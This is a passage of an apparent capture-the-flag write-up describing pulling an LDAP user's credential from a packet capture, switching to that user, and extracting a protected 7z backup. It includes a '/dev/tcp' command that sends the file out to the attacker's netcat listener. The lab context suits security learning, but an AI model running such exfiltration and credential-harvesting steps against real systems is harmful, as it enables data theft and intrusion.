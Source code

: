 With the pcap file opened through wireshark, I filtered result for LDAP only:

![](https://i.imgur.com/ccHR1tK.png)


Authentication was made for ldapuser2 in plain text: **8bc8251332abe1d7f105d3e53ad39ac2**

![](https://i.imgur.com/iKzDnfG.png)



I tried SSH logging in as ldapuser2 with the found credentials but it didn't work:

![](https://i.imgur.com/23a8FVf.png)


However, changing into ldapuser2 from 10.10.14.17 was possible:

`su ldapuser2`

![](https://i.imgur.com/xo3dfOx.png)


## Privesc: ldapuser2 to ldapuser1
Listing home directory for ldapuser2, I discovered: **backup.7z**

![](https://i.imgur.com/c4PrKiE.png)



### File Transfer

With **netcat** listener running locally on Kali machine, I sent the contents of **backup.7z** file over the network to the listener running on the local machine:

`cat backup.7z > /dev/tcp/10.10.14.17/9001`

![](https://i.imgur.com/BWu6t6d.png)


Now on my local listener, the data receieved by Netcat is redirected to a file named backup.7z:

`nc -lvnp 9001 > backup.7z`

![](https://i.imgur.com/FtwfYyu.png)


### Crack

File was compressed with 7-zip version 0.4:

![](https://i.imgur.com/3B4rFB5.png)

I tried unzipping with **7z** and it require a password:

`7z x backup.7z`

![](https://i.imgur.com/2InZCaP.png)

